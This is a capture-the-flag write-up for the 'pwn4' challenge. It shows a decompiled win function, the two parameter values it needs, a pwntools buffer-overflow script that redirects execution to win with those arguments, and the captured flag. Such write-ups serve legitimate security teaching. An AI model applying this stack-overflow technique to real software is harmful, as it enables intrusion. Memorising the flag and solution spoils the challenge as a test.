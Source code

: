 # pwn / pwn4

> Points: 2409

## Question

```
nc uwctf.ml 6005
```

## Solution

For this challenge our win function looks like this.
```c
void win(int param_1,int param_2) {
    if ((param_2 + param_1 == -0x21524111) && (param_2 * param_1 == -0x1123502)) {
        system("/bin/cat ./flag.txt");
    }
    return;
}
```

Now instead of getting the values directly we get two equations we have to solve.  
I'm not gonna explain how to solve it, just know that `param_1` has to be `893835166` and `param_2` has to be `2842093393`.  
See the writeup on pwn2 for an explanation on how the parameters are sent.
```python
from pwn import *

exe = ELF("chall4.bin")
p = remote("uwctf.ml", 6005)
p.send(b"A" * 28 + p32(exe.sym["win"]) + b"AAAA" + p32(893835166) + p32(2842093393) + b"\n")
p.clean_and_log(timeout=1)
```

### Flag

`uwctf{buff3r0v3rf10w4_2cf6bc249a4fa07e}`
